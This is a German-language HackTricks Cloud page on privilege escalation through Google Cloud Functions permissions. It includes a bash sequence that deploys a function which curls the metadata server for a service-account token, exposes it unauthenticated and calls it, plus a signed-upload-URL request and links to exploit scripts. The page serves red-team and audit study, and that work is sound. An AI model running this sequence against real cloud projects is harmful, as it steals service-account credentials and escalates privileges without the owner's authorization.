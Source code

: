 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Mehr Informationen über Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ein Angreifer mit diesen Berechtigungen kann **eine neue Cloud-Funktion mit beliebigem (bösartigem) Code erstellen und ihr ein Dienstkonto zuweisen**. Dann kann er das Dienstkonto-Token aus den Metadaten leaken, um die Berechtigungen zu eskalieren.\
Einige Berechtigungen zum Auslösen der Funktion könnten erforderlich sein.

Exploit-Skripte für diese Methode finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) und [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) und die vorgefertigte .zip-Datei finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ein Angreifer mit diesen Berechtigungen kann **den Code einer Funktion ändern und sogar das angehängte Dienstkonto ändern**, um das Token zu exfiltrieren.

{% hint style="danger" %}
Um Cloud-Funktionen bereitzustellen, benötigen Sie auch actAs-Berechtigungen über das Standard-Compute-Dienstkonto oder über das Dienstkonto, das zum Erstellen des Images verwendet wird.
{% endhint %}

Einige zusätzliche Berechtigungen wie die `.call`-Berechtigung für Version 1 cloudfunctions oder die Rolle `role/run.invoker`, um die Funktion auszulösen, könnten erforderlich sein.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Wenn Sie den Fehler `Permission 'run.services.setIamPolicy' denied on resource...` erhalten, liegt das daran, dass Sie den Parameter `--allow-unauthenticated` verwenden und nicht über ausreichende Berechtigungen dafür verfügen.
{% endhint %}

Das Exploit-Skript für diese Methode finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Mit dieser Berechtigung können Sie eine **signierte URL erhalten, um eine Datei in einen Funktionsbucket hochzuladen (aber der Code der Funktion wird nicht geändert, Sie müssen ihn weiterhin aktualisieren)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nicht wirklich sicher, wie nützlich nur diese Berechtigung aus der Perspektive eines Angreifers ist, aber gut zu wissen.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Gib dir eine der vorherigen **`.update`** oder **`.create`** Berechtigungen, um zu eskalieren.

### `cloudfunctions.functions.update`

Nur mit **`cloudfunctions`** Berechtigungen, ohne **`iam.serviceAccounts.actAs`** kannst du **die Funktion nicht aktualisieren, ALSO IST DAS KEINE GÜLTIGE PRIVESC.**

### Bucket Schreibberechtigungen

Du könntest denken, dass ein Angreifer mit **Schreibberechtigungen über den Bucket**, in dem der Cloud Functions Code gespeichert ist, in der Lage sein wird, den **Code zu ändern, indem er** die `function_code.zip` überschreibt und dann die Funktion **beliebigen** Code ausführt.

{% hint style="success" %}
**Das ist jedoch nicht wahr, das bloße Überschreiben des Codes im Bucket wird den Code, der ausgeführt wird, nicht ändern.**
{% endhint %}

## Referenzen

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
